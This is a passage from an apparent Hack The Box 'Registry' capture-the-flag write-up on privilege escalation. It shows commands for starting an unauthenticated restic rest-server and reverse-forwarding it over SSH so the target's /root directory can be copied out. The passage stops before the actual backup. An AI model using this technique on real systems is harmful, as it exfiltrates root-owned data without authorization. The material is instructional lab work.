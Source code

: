 ![Untitled](/img/htb-registry/23.png)

## Privilege Escalation:

We already know, we can run ``restic`` as root in ``www-data`` without password.
![Untitled](/img/htb-registry/24.png)

I checked the manual.
>https://restic.readthedocs.io/en/latest/manual_rest.html

It looks like we can run server in our machine and take backup of ``/root`` directory of the box.

### First Step: Create Restic Repo and Run on your local rest-server

```
sudo restic init --repo /tmp/restic
enter password for new repository: 
enter password again: 
created restic repository 41f82a77b4 at /tmp/restic


Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.

password: 123

----------------------------------------------------

rest-server --no-auth --listen 0.0.0.0:8001
Data directory: /tmp/restic
Authentication disabled
Private repositories disabled
Starting server on 0.0.0.0:8001
....(Running Live)

-----------------------------------------------------
```

### Second Step: SSH Portfoward

```
ssh -R 8001:127.0.0.1:8001 -i id_rsa bolt@registry.htb 
Enter passphrase for key 'id_rsa': 


Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sun Jan  5 16:03:28 UTC 2020

  System load:  0.04              Users logged in:                0
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 25%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    155
Last login: Sun Jan  5 16:02:51 2020 from 10.10.16.82
bolt@bolt:~$

------------------------------------------------------
```
``-R`` to Remote port forward, this will redirecting all connections from one port to another remote. 
